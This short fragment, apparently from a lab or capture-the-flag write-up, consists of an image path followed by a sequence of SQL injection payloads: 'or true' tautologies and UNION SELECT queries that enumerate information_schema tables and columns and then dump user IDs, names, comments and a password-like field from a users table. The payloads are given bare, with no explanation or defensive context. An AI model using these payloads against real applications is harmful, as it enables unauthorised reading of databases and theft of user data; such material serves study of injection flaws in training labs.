 <p>1 or true<br>
1 or true union select table_name, table_type from information_schema.tables<br>
1 or true union select table_name, column_name from information_schema.columns<br>
1 or true union select user_id, first_name from users<br>
1 or true union select user_id, commentaire from users<br>
1 or true union select commentaire, countersign  from users
</p>
